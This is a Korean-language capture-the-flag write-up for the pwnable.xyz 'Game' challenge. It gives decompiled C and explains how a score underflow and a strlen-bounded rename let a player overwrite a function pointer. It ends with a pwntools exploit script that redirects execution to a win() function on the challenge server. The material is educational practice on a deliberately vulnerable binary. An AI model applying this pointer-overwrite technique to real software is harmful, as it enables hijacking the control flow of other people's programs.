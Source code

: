 ```yaml
---
title: "[pwnable.xyz]Game"
date: 2020-1-26
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


메인이다. 메뉴는 총 4개가 있다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  const char *v3; // rdi
  signed int v4; // eax

  setup();
  v3 = "Shell we play a game?";
  puts("Shell we play a game?");
  init_game();
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu(v3, argv);
      v3 = "> ";
      printf("> ");
      v4 = read_int32();
      if ( v4 != 1 )
        break;
      (*(cur + 3))();
    }
    if ( v4 > 1 )
    {
      if ( v4 == 2 )
      {
        save_game();
      }
      else
      {
        if ( v4 != 3 )
          goto LABEL_13;
        edit_name();
      }
    }
    else
    {
      if ( !v4 )
        exit(1);
LABEL_13:
      v3 = "Invalid";
      puts("Invalid");
    }
  }
}
```

우선 `init_game` 함수를 보면 *cur에 name입력받은 16바이트 저장한다. 그리고 *(cur+3)에 play_game함수를 저장한다.

```c
char *init_game()
{
  char *result; // rax

  saves[0] = malloc(32uLL);
  cur = find_last_save();
  printf("Name: ");
  read(0, cur, 16uLL);
  result = cur;
  *(cur + 3) = play_game;
  return result;
}
```

이 함수는 별거 없다.

```c
unsigned __int64 play_game()
{
  __int16 v0; // dx
  __int16 v1; // dx
  __int16 v2; // dx
  __int16 v3; // dx
  int fd; // [rsp+Ch] [rbp-124h]
  int v6; // [rsp+10h] [rbp-120h]
  unsigned int buf; // [rsp+14h] [rbp-11Ch]
  unsigned int v8; // [rsp+18h] [rbp-118h]
  unsigned __int8 v9; // [rsp+1Ch] [rbp-114h]
  char s; // [rsp+20h] [rbp-110h]
  unsigned __int64 v11; // [rsp+128h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
  {
    puts("Can't open /dev/urandom");
    exit(1);
  }
  read(fd, &buf, 0xCuLL);
  close(fd);
  v9 &= 3u;
  memset(&s, 0, 0x100uLL);
  snprintf(&s, 0x100uLL, "%u %c %u = ", buf, ops[v9], v8);
  printf("%s", &s);
  v6 = read_int32();
  if ( v9 == 1 )
  {
    if ( buf - v8 == v6 )
      v1 = *(cur + 8) + 1;
    else
      v1 = *(cur + 8) - 1;
    *(cur + 8) = v1;
  }
  else if ( v9 > 1 )
  {
    if ( v9 == 2 )
    {
      if ( buf / v8 == v6 )
        v2 = *(cur + 8) + 1;
      else
        v2 = *(cur + 8) - 1;
      *(cur + 8) = v2;
    }
    else if ( v9 == 3 )
    {
      if ( v8 * buf == v6 )
        v3 = *(cur + 8) + 1;
      else
        v3 = *(cur + 8) - 1;
      *(cur + 8) = v3;
    }
  }
  else if ( !v9 )
  {
    if ( v8 + buf == v6 )
      v0 = *(cur + 8) + 1;
    else
      v0 = *(cur + 8) - 1;
    *(cur + 8) = v0;
  }
  return __readfsqword(0x28u) ^ v11;
}
```

`save_game ` 함수는 청크를 복사해준다.

```c
int save_game()
{
  _QWORD *v0; // rcx
  __int64 v1; // rdx
  __int64 v2; // rdx
  __int64 v3; // rax
  signed int i; // [rsp+Ch] [rbp-4h]

  for ( i = 1; i <= 4; ++i )
  {
    if ( !saves[i] )
    {
      saves[i] = malloc(32uLL);
      v0 = saves[i];
      v1 = *(cur + 1);
      *v0 = *cur;
      v0[1] = v1;
      *(saves[i] + 16) = *(cur + 8);
      *(saves[i] + 24) = play_game;
      v2 = i;
      v3 = saves[v2];
      cur = saves[v2];
      return v3;
    }
  }
  LODWORD(v3) = puts("Not enough space.");
  return v3;
}
```

edit_name() 함수에서는 name만큼 값을 쓸 수 있다.

```c
ssize_t edit_name()
{
  size_t v0; // rax

  v0 = strlen(cur);
  return read(0, cur, v0);
}
```

구조체는 name, score, fucntion *ptr 이런식으로 되있을 거다.

익스할 때 처음에 일단 name에서 16개를 꽉 채워서 보내는 이유는 size와 합쳐져서 널 바이트를 없애 3번 메뉴에서 더 많이 받을 수 있다.

우선 1번 메뉴 play를 해서 지면 score이 -1이 된걸 볼 수 있는데 디버깅해보면 값은 0xffff가 들어간다. 이제 save로 복사하면 새로운 청크가 생기면서 값들이 복사된다. 여기서0xffffffffffffffff가 들어간다. 

그래서 name(16) + 0xffffffffffffffff(8) + 0x0400aca(3) 이렇게 된다. 그래서 우리는 총 27바이트를 입력할 수 있다. 이제 0x0400aca를 덮을 수 있다. 3바이트를 덮을 수 있으니까 0x4009d6주소인 win으로 덮으면 1번 메뉴 실행할 때마다 win함수가 실행될거다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30009)

p.sendafter(':','A'*16) # name
p.sendlineafter('>','1') # play
p.sendafter('=','1') # anything
p.sendlineafter('>','2') # save
p.sendlineafter('>','3') # read(0,cur,sizeof(cur))
payload = 'A'*24 + p16(0x9d6) # size -> 2byte & 0x4009d6 -> win();
p.send(payload)

p.interactive()
```

